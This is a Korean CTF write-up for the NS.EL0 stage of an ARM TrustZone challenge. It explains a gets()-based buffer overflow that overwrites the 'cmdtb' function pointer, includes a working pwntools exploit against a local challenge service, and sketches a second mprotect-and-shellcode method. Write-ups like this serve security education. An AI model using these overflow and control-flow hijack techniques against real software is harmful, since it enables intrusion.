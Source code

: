 ### NS.EL0

#### 익스 방법 1

##### 설명

`main` 함수에서 `load_trustlet` 함수를 통해 TrustedApplication 과 소통을 할 수 있게 초기화한다. 그리고 `cmdtb` 라는 함수 포인터를 초기화한다.  

`run` 함수를 통해 실질적인 동작을 수행하는데 이 함수에서는 `scanf` 를 통해 유저에게 입력을 받는다. `scanf` 는 `gets(input)` 를 호출한다. 이때 `input` 다음에 `cmdtb` 가 존재하므로 BoF 를 통해 `cmdtb` 를 변조할 수 있다.

##### 플래그 얻기

NS.EL0 에는 `print_flag` 라는 함수가 존재한다. `cmdtb` 를 변조하여 이 함수를 호출하면 된다.

##### exploit.py

```python
from pwn import *

# context.log_level = "debug"
context.arch = "aarch64"
context.bits = 64

def load_key(idx: int):
    p.sendlineafter(b"cmd> ", b"0")
    p.sendlineafter(b"index: ", str(idx).encode())

def save_key(idx: int, key: bytes):
    p.sendlineafter(b"cmd> ", b"1")
    p.sendlineafter(b"index: ", str(idx).encode())
    p.sendlineafter(b"key: ", key)

p = remote("localhost", 6666)
elf = ELF("./el0")

pl = b"a" * 0x100
pl += p64(elf.symbols["print_flag"])
pl += p64(elf.symbols["print_flag"])
save_key(1, pl)

p.recvuntil(b"Flag (EL0): ")
FLAG = p.recvline()
log.info(f"FLAG : {FLAG.decode()}")
```

#### 익스 방법 2

##### 설명

mprotect 를 통해 R-X 영역을 만들 수 있으므로 쉘코드를 실행할 수 있다. 이를 이용하여 처음에 할당된 BUF 영역에 쉘 코드를 쓰고 R-X 영역으로 만든 뒤에 임의 코드를 실행하여 플래그를 얻을 수 있다.
